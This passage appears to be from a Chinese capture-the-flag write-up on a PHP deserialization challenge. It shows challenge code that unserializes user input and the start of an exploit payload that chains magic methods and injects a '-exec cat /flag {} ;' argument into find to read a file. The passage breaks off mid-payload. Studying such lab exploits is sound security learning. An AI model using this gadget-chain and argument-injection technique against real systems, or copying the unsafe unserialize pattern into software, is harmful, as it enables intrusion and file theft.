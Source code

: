 ```php
}else if($bullet == 'phpinfo')
{
    $infos = new Info();
}else
{
    $obstacle1 = new stdClass;
    $obstacle2 = new stdClass;
    $mc = new MyClass();
    $mc->flag = "MyClass's flag said, Overwrite Me If You Can!";
    @unserialize($bullet);
    echo $mc->get_flag();
}

```



**思路1**：

- ShowOff类的\__wake_up调用MiddleMan的__unset

- 然后利用$func调用MyClass的get_flag方法

- find 方法可以执行命令。前提是存在/HackersForever

- payload

  ```php
  <?php
  //error_reporting(0);
  class MyClass
  {
      var $kw0ng;
      var $flag = '-exec cat /flag {} ;';
  
      public function __wakeup()
      {
